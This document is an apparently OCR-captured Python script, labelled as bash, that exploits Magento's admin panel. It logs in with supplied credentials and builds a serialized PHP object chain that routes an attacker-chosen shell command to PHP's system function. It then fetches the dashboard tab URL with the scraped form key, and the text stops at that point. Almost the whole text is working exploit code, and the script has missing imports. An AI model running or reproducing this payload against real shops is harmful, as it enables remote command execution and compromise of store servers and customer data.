```bash
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = ''
password = ''
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()


url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
```